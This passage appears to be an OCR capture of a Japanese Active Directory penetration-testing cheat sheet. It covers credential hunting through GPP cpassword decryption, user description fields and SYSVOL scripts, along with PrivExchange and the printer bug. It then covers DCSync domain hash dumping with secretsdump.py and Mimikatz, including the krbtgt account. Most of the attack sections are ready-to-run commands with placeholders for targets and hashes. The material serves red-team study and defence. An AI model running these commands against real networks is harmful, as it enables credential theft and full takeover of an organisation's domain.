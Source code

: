 - 手動復号 (gpp-decrypt)
```shell
gpp-decrypt <CPASSWORD_FROM_XML>
```
### 説明欄に書かれたパスワード
ユーザーアカウントの説明欄などに不用意に記載されたパスワードの探索
- PowerView
```powershell
Get-DomainUser - | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```
### SYSVOLスクリプト内の認証情報
SYSVOL共有内のスクリプトにハードコードされた認証情報の探索
- SYSVOL共有 (`\\<DC_IP>\SYSVOL\<DOMAIN_FQDN>\scripts`) 内のスクリプトを確認
### Exchange関連グループメンバーシップ 
PrivExchange等
Exchange関連の特権グループ ("Exchange Windows Permissions", "Organization Management") の悪用
### プリンタバグ 
MS-RPRN
プリントスプーラープロトコルの欠陥を利用し、サーバーに任意ホストへの認証を強制（LDAPリレーなど）
### LDAP認証情報スニッフィング
アプリケーションやプリンタのWeb管理コンソールからLDAP認証情報を窃取

# Post Privilege Escatlation

## DCSync 
ドメイン全体のハッシュ取得
### secretsdump.py 
DS-Replication-Get-Changes権限を悪用し、ドメインコントローラーから全ユーザーのNTLMハッシュなどを取得
- パスワード使用
```shell
secretsdump.py -just-dc -outputfile domain_hashes <DOMAIN>/<DA_USER>@<DC_IP>
```
- NTLMハッシュ使用
```shell
secretsdump.py -just-dc -outputfile domain_hashes -hashes <LMHASH:NTHASH> <DOMAIN>/<DA_USER>@<DC_IP>
```
- Kerberosチケット使用
```shell
export KRB5CCNAME=<TICKET.CCACHE>;
```

```shell   
secretsdump.py -k -no-pass -just-dc <DOMAIN>/<DA_USER_IMPERSONATED>@<DC_IP>
```
### Mimikatz
ドメイン管理者権限のコンテキストで実行し、DCSync攻撃
```powershell
privilege::debug
lsadump::dcsync /domain:<DOMAIN_FQDN> /all /csv
lsadump::dcsync /domain:<DOMAIN_FQDN> /user:krbtgt
```

